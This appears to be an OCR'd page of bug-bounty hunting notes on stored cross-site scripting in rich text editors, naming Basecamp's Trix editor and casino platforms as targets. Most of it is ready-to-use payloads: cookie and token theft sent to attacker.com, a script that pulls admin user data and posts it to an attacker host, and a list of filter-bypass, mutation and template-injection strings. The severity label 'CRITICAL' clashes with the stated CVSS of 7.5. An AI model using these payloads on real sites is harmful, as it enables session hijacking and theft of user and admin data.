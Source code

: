 ### 6. **Stored XSS in Rich Text Editors**

**Target:** Basecamp (Trix Editor 2.1.8)  
**Severity:** CRITICAL  
**CVSS:** 7.5+  
**Bounty:** $500-$2,000

**Vulnerability:**
```html
<!-- Mutation-based XSS payload -->
<div contenteditable="false">
  <img src=x onerror="alert(document.cookie)">
</div>
```

**Casino Platform Vectors:**

1. **Chat/Support Messages**
```html
<div>
  <svg onload="fetch('https://attacker.com?cookie='+document.cookie)">
</div>
```

2. **User Profile Bio**
```html
<iframe src="javascript:alert('XSS in profile')"></iframe>
```

3. **Tournament Descriptions**
```html
<img src=x onerror="window.location='https://attacker.com/steal?token='+localStorage.token">
```

4. **Bet Comments/Notes**
```javascript
// Stored in database, executes when admin views
<script>
  fetch('/api/admin/users').then(r=>r.json()).then(d=>
    fetch('https://attacker.com/log',{method:'POST',body:JSON.stringify(d)})
  )
</script>
```

**Testing Payloads:**
```html
<!-- Basic tests -->
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg onload=alert(1)>

<!-- Advanced bypass -->
<img src=x onerror="eval(atob('YWxlcnQoMSk='))">

<!-- Mutation XSS -->
<noscript><p title="</noscript><img src=x onerror=alert(1)>">

<!-- Template injection -->
{{constructor.constructor('alert(1)')()}}
${alert(1)}
```

---